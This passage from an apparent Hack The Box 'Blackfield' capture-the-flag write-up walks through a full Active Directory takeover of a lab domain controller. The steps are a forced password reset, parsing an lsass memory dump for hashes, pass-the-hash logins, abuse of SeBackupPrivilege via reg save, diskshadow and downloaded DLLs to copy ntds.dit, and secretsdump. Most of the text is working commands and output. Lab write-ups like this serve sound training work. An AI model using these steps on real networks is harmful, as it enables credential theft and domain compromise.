└─$ crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'                               
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD.local\support:#00^BlackKnight
```
## User #1
- Nothing new in `smb` except for `SYSVOL` and `NETLOGON`

```
└─$ smbmap -u support -p '#00^BlackKnight' -H 10.10.10.192 
[+] IP: 10.10.10.192:445        Name: BLACKFIELD.local                                  
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                NO ACCESS       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
```
- No `Kerberoastable` users
```
└─$ impacket-GetUserSPNs blackfield.local/'support':'#00^BlackKnight' -dc-ip dc01.blackfield.local -request                          
Impacket v0.11.0 - Copyright 2023 Fortra

No entries found!

```

- `ldapsearch` to retrieve `samaccountname` of domain controller
```
└─$ ldapsearch -H ldap://10.10.10.192 -x -b "DC=blackfield,DC=local" -D 'support@blackfield.local' -w '#00^BlackKnight'
# extended LDIF
#
# LDAPv3
# base <DC=blackfield,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# BLACKFIELD.local
dn: DC=BLACKFIELD,DC=local
objectClass: top
objectClass: domain
objectClass: domainDNS
...
dn: CN=DC01,OU=Domain Controllers,DC=BLACKFIELD,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
objectClass: computer
cn: DC01
distinguishedName: CN=DC01,OU=Domain Controllers,DC=BLACKFIELD,DC=local
instanceType: 4
whenCreated: 20200223111400.0Z
whenChanged: 20230918021908.0Z
uSNCreated: 12293
uSNChanged: 233542
name: DC01
objectGUID:: yKWttevtGU+AkuFOUWYvng==
userAccountControl: 532480
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132269516749519355
lastLogoff: 0
lastLogon: 133395347215321691
localPolicyFlags: 0
pwdLastSet: 133394771382736467
primaryGroupID: 516
objectSid:: AQUAAAAAAAUVAAAA3sEE+lnfq4Ei72nU6AMAAA==
accountExpires: 9223372036854775807
logonCount: 134
sAMAccountName: DC01$
sAMAccountType: 805306369
operatingSystem: Windows Server 2019 Standard
operatingSystemVersion: 10.0 (17763)
serverReferenceBL: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=C
 onfiguration,DC=BLACKFIELD,DC=local
dNSHostName: DC01.BLACKFIELD.local
...
```

- Let's launch bloodhound
```
└─$ bloodhound-python -c all -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns 10.10.10.192 --zip
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 316 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
```

- `support` has `ForceChangePassword` rights over `audit2020`



- Let's change `audit2020`'s password via `RPC`
  - https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword
  - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#forcechangepassword

```
└─$ rpcclient -U blackfield.local/support dc01.blackfield.local 
Password for [BLACKFIELD.LOCAL\support]:
rpcclient $> setuserinfo2 audit2020 23 P@ssw0rd!@#
rpcclient $> 

```
```
└─$ crackmapexec smb 10.10.10.192 -u audit2020 -p 'P@ssw0rd!@#'                                           
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:P@ssw0rd!@# 
```

- But no `winrm`
```
└─$ crackmapexec winrm 10.10.10.192 -u audit2020 -p 'P@ssw0rd!@#'
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD.local\audit2020:P@ssw0rd!@#
```
## ## User #2
- But we have access to `forensic`
```
└─$ smbmap -u audit2020 -p 'P@ssw0rd!@#' -H 10.10.10.192 
[+] IP: 10.10.10.192:445        Name: BLACKFIELD.local                                  
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                READ ONLY       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
                                                                         
```

- Let's check the content
```
└─$ smbmap -u audit2020 -p 'P@ssw0rd!@#' -H 10.10.10.192 -R 'forensic'
[+] IP: 10.10.10.192:445        Name: BLACKFIELD.local                                  
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        forensic                                                READ ONLY
        .\forensic\*
        dr--r--r--                0 Sun Feb 23 15:10:16 2020    .
        dr--r--r--                0 Sun Feb 23 15:10:16 2020    ..
        dr--r--r--                0 Sun Feb 23 18:14:37 2020    commands_output
        dr--r--r--                0 Thu May 28 21:29:24 2020    memory_analysis
        dr--r--r--                0 Fri Feb 28 22:30:34 2020    tools
        .\forensic\commands_output\*
        dr--r--r--                0 Sun Feb 23 18:14:37 2020    .
        dr--r--r--                0 Sun Feb 23 18:14:37 2020    ..
        fr--r--r--              528 Sun Feb 23 18:12:54 2020    domain_admins.txt
        fr--r--r--              962 Sun Feb 23 18:12:54 2020    domain_groups.txt
        fr--r--r--            16454 Fri Feb 28 22:32:17 2020    domain_users.txt
        fr--r--r--           518202 Sun Feb 23 18:12:54 2020    firewall_rules.txt
        fr--r--r--             1782 Sun Feb 23 18:12:54 2020    ipconfig.txt
        fr--r--r--             3842 Sun Feb 23 18:12:54 2020    netstat.txt
        fr--r--r--             3976 Sun Feb 23 18:12:54 2020    route.txt
        fr--r--r--             4550 Sun Feb 23 18:12:54 2020    systeminfo.txt
        fr--r--r--             9990 Sun Feb 23 18:12:54 2020    tasklist.txt
        .\forensic\memory_analysis\*
        dr--r--r--                0 Thu May 28 21:29:24 2020    .
        dr--r--r--                0 Thu May 28 21:29:24 2020    ..
        fr--r--r--         37876530 Thu May 28 21:29:24 2020    conhost.zip
        fr--r--r--         24962333 Thu May 28 21:29:24 2020    ctfmon.zip
        fr--r--r--         23993305 Thu May 28 21:29:24 2020    dfsrs.zip
        fr--r--r--         18366396 Thu May 28 21:29:24 2020    dllhost.zip
        fr--r--r--          8810157 Thu May 28 21:29:24 2020    ismserv.zip
        fr--r--r--         41936098 Thu May 28 21:29:24 2020    lsass.zip
        fr--r--r--         64288607 Thu May 28 21:29:24 2020    mmc.zip
        fr--r--r--         13332174 Thu May 28 21:29:24 2020    RuntimeBroker.zip
        fr--r--r--        131983313 Thu May 28 21:29:24 2020    ServerManager.zip
        fr--r--r--         33141744 Thu May 28 21:29:24 2020    sihost.zip
        fr--r--r--         33756344 Thu May 28 21:29:24 2020    smartscreen.zip
        fr--r--r--         14408833 Thu May 28 21:29:24 2020    svchost.zip
        fr--r--r--         34631412 Thu May 28 21:29:24 2020    taskhostw.zip
        fr--r--r--         14255089 Thu May 28 21:29:24 2020    winlogon.zip
        fr--r--r--          4067425 Thu May 28 21:29:24 2020    wlms.zip
        fr--r--r--         18303252 Thu May 28 21:29:24 2020    WmiPrvSE.zip
...
```

- We have `lsass` file in `memory_analysis` folder
  - Let's check it
```
└─$ smbclient //10.10.10.192/forensic -U 'audit2020%P@ssw0rd!@#' 
Try "help" to get a list of possible commands.
smb: \> cd memory_analysis\
smb: \memory_analysis\> get lsass.zip 
parallel_read returned NT_STATUS_IO_TIMEOUT
smb: \memory_analysis\> getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip SMBecho failed (NT_STATUS_CONNECTION_DISCONNECTED). The connection is disconnected now
```

- To solve this issue we can mount the share
```
└─$ sudo mount -t cifs -o 'username=audit2020,password=P@ssw0rd!@#' //10.10.10.192/forensic/memory_analysis /mnt/smb/ 
```
```
└─$ ls /mnt/smb 
conhost.zip  ctfmon.zip  dfsrs.zip  dllhost.zip  ismserv.zip  lsass.zip  mmc.zip  RuntimeBroker.zip  ServerManager.zip  sihost.zip  smartscreen.zip  svchost.zip  taskhostw.zip  winlogon.zip  wlms.zip  WmiPrvSE.zip     
```
```
└─$ cp /mnt/smb/lsass.zip ./
```

- Unzip the memory dump and pass it to `pypykatz`
  - https://github.com/skelsec/pypykatz
```
└─$ pypykatz lsa minidump lsass.DMP
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
...
```

- Now we can `winrm` using the hash
```
└─$ crackmapexec winrm 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```
```
└─$ evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> 

```
## Root
- We have a note in `C:\`
```
*Evil-WinRM* PS C:\> type notes.txt
Mates,

After the domain compromise and computer forensic last week, auditors advised us to:
- change every passwords -- Done.
- change krbtgt password twice -- Done.
- disable auditor's account (audit2020) -- KO.
- use nominative domain admin accounts instead of this one -- KO.

We will probably have to backup & restore things later.
- Mike.

PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)
```
- `whoami`
```
*Evil-WinRM* PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

```

- We have `SeBackupPrivilege` and we are [Backup Operators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#backup-operators)
  - Download the [dlls](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)
  - Follow one of these posts:
    - https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
    - https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/windows-privesc-with-sebackupprivilege/
    - https://juggernaut-sec.com/sebackupprivilege/
  - Let's try `reg save` to download `system` and `sam` and then `pypykatz` or `secretsdump`

```
*Evil-WinRM* PS C:\> reg save hklm\sam C:\ProgramData\SAM
The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\SYSTEM C:\ProgramData\SYSTEM
The operation completed successfully.

*Evil-WinRM* PS C:\programdata> download sam
                                        
Info: Downloading C:\programdata\sam to sam
                                        
Info: Download successful!
*Evil-WinRM* PS C:\programdata> download system
                                        
Info: Downloading C:\programdata\system to system
                                        
Info: Download successful!

```
```
└─$ pypykatz registry --sam sam system
WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 73d83e56de8961ca9f243e1a49638393
============== SAM hive secrets ==============
HBoot Key: 1d645695662cc2a70d54ee626104485110101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
- Or
```
└─$ impacket-secretsdump -sam sam -system system local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 
```

- But we can't `winrm` as `Administrator`
```
└─$ evil-winrm -i 10.10.10.192 -u administrator -H 67ef902eae0d740df6257f273de75051
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1

```
- Let's try `dll` method
```
*Evil-WinRM* PS C:\users\svc_backup> iwr 10.10.16.9/SeBackupPrivilegeCmdLets.dll -outfile SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\users\svc_backup> iwr 10.10.16.9/SeBackupPrivilegeUtils.dll -outfile SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\users\svc_backup> ls


    Directory: C:\users\svc_backup


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        2/23/2020   9:16 AM                3D Objects
d-r---        2/23/2020   9:16 AM                Contacts
d-r---        2/28/2020   2:26 PM                Desktop
d-r---        2/23/2020   9:16 AM                Documents
d-r---        2/23/2020   9:16 AM                Downloads
d-r---        2/23/2020   9:16 AM                Favorites
d-r---        2/23/2020   9:16 AM                Links
d-r---        2/23/2020   9:16 AM                Music
d-r---        2/23/2020   9:16 AM                Pictures
d-r---        2/23/2020   9:16 AM                Saved Games
d-r---        2/23/2020   9:16 AM                Searches
d-r---        2/23/2020   9:16 AM                Videos
-a----        9/18/2023   4:35 PM          12288 SeBackupPrivilegeCmdLets.dll
-a----        9/18/2023   4:36 PM          16384 SeBackupPrivilegeUtils.dll


*Evil-WinRM* PS C:\users\svc_backup> import-module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\users\svc_backup> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\users\svc_backup> Copy-FileSeBackupPrivilege c:\windows\ntds\ntds.dit c:\users\svc_backup\downloads\ntds.dit -overwrite
Opening input file. - The process cannot access the file because it is being used by another process. (Exception from HRESULT: 0x80070020)
At line:1 char:1
+ Copy-FileSeBackupPrivilege c:\windows\ntds\ntds.dit c:\users\svc_back ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-FileSeBackupPrivilege], Exception
    + FullyQualifiedErrorId : System.Exception,bz.OneOEight.SeBackupPrivilege.Copy_FileSeBackupPrivilege

```

- Another fail
  - Let's try [diskshadow](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow)
  - The payload from [this post](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration)
  - Set alias to `trophy`
```
set context persistent nowriters
set metadata c:\programdata\metadata.cab
add volume c: alias trophy
create
expose %trophy% z:
```
```
*Evil-WinRM* PS C:\users\svc_backup> diskshadow.exe /s C:\users\svc_backup\diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/18/2023 5:02:10 PM

-> set context persistent nowriters
-> set metadata c:\programdata\metadata.cab
The existing file will be overwritten.
-> add volume c: alias trophy
-> create
Alias trophy for shadow ID {f5e81929-aad5-44f9-87f9-4aa66006c3ef} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {94c54815-47e8-46fc-b1e7-f1caa65770ba} set as environment variable.

Querying all shadow copies with the shadow copy set ID {94c54815-47e8-46fc-b1e7-f1caa65770ba}

        * Shadow copy ID = {f5e81929-aad5-44f9-87f9-4aa66006c3ef}               %trophy%
                - Shadow copy set: {94c54815-47e8-46fc-b1e7-f1caa65770ba}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 9/18/2023 5:02:11 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %trophy% z:
-> %trophy% = {f5e81929-aad5-44f9-87f9-4aa66006c3ef}
The shadow copy was successfully exposed as z:\.
->

```

- Copy and download the `ntds.dit`
```
*Evil-WinRM* PS C:\users\svc_backup> Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit .\ntds.dit
*Evil-WinRM* PS C:\users\svc_backup> ls


    Directory: C:\users\svc_backup


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        2/23/2020   9:16 AM                3D Objects
d-r---        2/23/2020   9:16 AM                Contacts
d-r---        2/28/2020   2:26 PM                Desktop
d-r---        2/23/2020   9:16 AM                Documents
d-r---        2/23/2020   9:16 AM                Downloads
d-r---        2/23/2020   9:16 AM                Favorites
d-r---        2/23/2020   9:16 AM                Links
d-r---        2/23/2020   9:16 AM                Music
d-r---        2/23/2020   9:16 AM                Pictures
d-r---        2/23/2020   9:16 AM                Saved Games
d-r---        2/23/2020   9:16 AM                Searches
d-r---        2/23/2020   9:16 AM                Videos
-a----        9/18/2023   5:02 PM            132 diskshadow.txt
-a----        9/18/2023   5:02 PM       18874368 ntds.dit
-a----        9/18/2023   4:35 PM          12288 SeBackupPrivilegeCmdLets.dll
-a----        9/18/2023   4:36 PM          16384 SeBackupPrivilegeUtils.dll
-a----        9/18/2023   4:56 PM            272 shadow.txt


*Evil-WinRM* PS C:\users\svc_backup> download ntds.dit
                                        
Info: Downloading C:\users\svc_backup\ntds.dit to ntds.dit
                                        
Info: Download successful!

```

- Now we use `impacket-secretsdump`
```
└─$ impacket-secretsdump -system system -ntds ntds.dit LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD538365:1106:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD189208:1107:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD404458:1108:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD706381:1109:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
...
```

- And now we can `winrm` as `Administrator` using his hash
```
└─$ evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```